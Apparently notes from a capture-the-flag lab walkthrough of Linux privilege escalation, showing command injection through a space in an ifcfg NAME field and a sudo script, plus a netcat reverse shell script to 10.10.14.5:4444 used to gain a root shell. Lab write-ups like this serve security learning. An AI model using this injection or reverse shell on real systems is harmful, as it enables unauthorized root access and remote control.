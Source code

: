 
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md


Writable /etc/sysconfig/network-scripts/ (Centos/Redhat)
/etc/sysconfig/network-scripts/ifcfg-1337 for example

NAME=Network /bin/id  &lt;= Note the blank space
ONBOOT=yes
DEVICE=eth0

EXEC :
./etc/sysconfig/network-scripts/ifcfg-1337


![](2021-02-10-13-20-48.png)


[guly@networked shm]$ cat rev 
#!/bin/bash
nc 10.10.14.5 4444 -e /bin/bash
chmod 777 rev



[guly@networked shm]$ sudo /usr/local/sbin/changename.sh     
interface NAME:
network /dev/shm/rev  &lt;= Note the blank space
wrong input, try again
interface NAME:
network /dev/shm/rev  
interface PROXY_METHOD:
asfasf
interface BROWSER_ONLY:
asfasf
interface BOOTPROTO:
asfasf



![](2021-02-10-13-24-03.png)